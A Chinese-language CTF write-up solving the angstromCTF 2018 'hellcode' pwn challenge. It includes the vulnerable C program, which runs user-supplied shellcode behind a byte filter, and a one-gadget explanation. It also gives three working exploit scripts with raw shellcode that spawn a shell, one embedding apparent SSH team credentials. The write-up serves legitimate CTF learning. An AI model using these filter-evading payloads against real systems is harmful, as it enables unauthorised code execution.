

```c
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

void code_runner()
{
	char tmp_code[18];
	char *code;
	bool executing = false;

	printf("Please enter your code: ");
	fflush(stdout);

	fgets(tmp_code, 17, stdin);

	char *end = strchr(tmp_code, '\n');
	if (end == NULL) end = &tmp_code[16];
	*end = '\0';
	int len = end - tmp_code;

	/* NO KERNEL FUNCS */
	if (strstr(tmp_code, "\xcd\x80") || strstr(tmp_code, "\x0f\x34") || strstr(tmp_code, "\x0f\x05"))
	{
		printf("Nice try, but syscalls aren't permitted\n");
		return;
	}

	/* NO CALLS TO DYNAMIC ADDRESSES */
	if (strstr(tmp_code, "\xff"))
	{
		printf("Nice try, but dynamic calls aren't permitted\n");
		return;
	}

	code = mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
	memcpy(code, tmp_code, len);
	code[len] = 0xc3;

	mprotect(code, 4096, PROT_READ|PROT_EXEC);
	if (executing == true)
	{
		printf("ROP chain detected!\n");
		munmap(code, 4096);
		exit(-1);
	}

	void (*func)() = (void (*)())code;
	executing = true;
	func();

	munmap(code, 4096);
}

int main(int argc, char **argv)
{
	gid_t gid = getegid();
	setresgid(gid,gid,gid);

	printf("Welcome to the Executor\n");
	code_runner();

	return 0;
}

```

Shellcode中不能含有"\xcd\x80”， "\x0f\x34”，”\x0f\x05”，"\xff”。每次读取17个字节，并且最后会加入一个`c3`也就是ret指令。

相当于手写godgets，不过当时忘了下载环境中的libc了。。。不过似乎和我本地的一样。后来看大佬的WP，可以直接输入shellcode，不用一步步的构造。

程序之中RCX中存放着和libc地址有关系的地址，可以拿来直接用。使用one-gadget获得一个`execve("/bin/sh", NULL, NULL)`的地址0x45216。注意one-gadget查找的gadget需要满足一些条件，比如这个就需要RAX=0。还是通过固定的偏移量，在本地：8777(和libc有关的rcx)-(7000(本地libc基地址)+5216(shell偏移))

```python
from pwn import *

shell = ssh("username","shell.angstromctf.com",port=22,password="password")
p = shell.process("/problems/hellcode/hellcode")
pay = "sub rcx, 0x%x; push rcx; ret" % (0x7f2b06d28777 - (0x7f2b06c27000 + 0x45216))
p.sendline(asm(pay))
p.interactive()
```

也可以rcx指向shell后直接jmp过去。
附带两种复杂的操作方法，不过。。。看起来以后会用的到。

第一种：
[Angstrom CTF 2018 Hellcode Write-up (Pwn200) - PwnDiary](https://www.pwndiary.com/write-ups/angstrom-ctf-2018-hellcode-write-up-pwn200/)
```python
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
 
p1 = '\x59\xb8\x11\xab\x09\x40\xc1\xe8\x08\x50\x41\x5c\x50'
p2 = '\x59\x6a\x0f\x58\x48\xc1\xe0\x03\x48\x8b\x1c\x04\x41\x54'
p3 = '\x59\x48\x81\xeb\x11\x11\x11\x11\x41\x54'
p4 = '\x59\x48\x81\xc3\x51\xd0\x1b\x11\x53\x41\x54'
p5 = '\x59\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x41\x54'
p6 = '\x59\x5a\x50\x53\x54\x5b\x52\x41\x54'
p7 = '\x59\x99\x53\x5f\x48\x31\xf6'
payloads = [p1, p2, p3, p4, p5, p6, p7]
 
s =  ssh(host='shell.angstromctf.com', user='team472787', password='04796ad685de')
sh = s.process('/problems/hellcode/hellcode')
 
sh.recvline()
for p in payloads:
    sh.recvuntil("Please enter your code: ")
    sh.sendline(p)
    
sh.interactive()
```

第二种：


```
(python -c 'print "\x4C\x8B\x24\x25\x48\x20\x60\x00\xB8\x96\x09\x40\x00\x50\xC3\n\x49\x81\xC4\x50\x4C\x02\x00\xB8\x96\x09\x40\x00\x50\xC3\n\x49\xC7\xC7\x90\x20\x60\x00\xB8\x96\x09\x40\x00\x50\xC3\n\x41\xC6\x07\x73\xB8\x96\x09\x40\x00\x50\xC3\n\x49\xC7\xC7\x91\x20\x60\x00\xB8\x97\x09\x40\x00\x50\xC3\n\x41\xC6\x07\x68\xB8\x96\x09\x40\x00\x50\xC3\n\x48\xC7\xC7\x90\x20\x60\x00\x41\x54\xC3\n"';cat)|./hellcode

```
